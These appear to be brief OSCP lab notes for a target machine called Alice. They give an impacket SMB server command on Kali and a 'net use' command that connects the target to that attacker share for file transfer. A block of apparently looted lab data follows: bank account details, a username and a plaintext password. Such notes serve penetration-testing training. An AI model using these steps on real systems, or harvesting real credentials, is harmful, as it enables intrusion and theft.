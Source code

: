 # OSCP
## Lab Machines
### Alice 10.11.1.5

On Kali:
```
impacket-smbserver richeeta .
```
to create the SMB server.

On Alice:
```
net use * \\IP\\richeeta
```
Bank	Gold Swiss
Acct #	2342364-KIETGGE-298074
SWIDF ID	swisgi
Reg Username	bobw@acme.local
Acct Password	3v1lp@ss
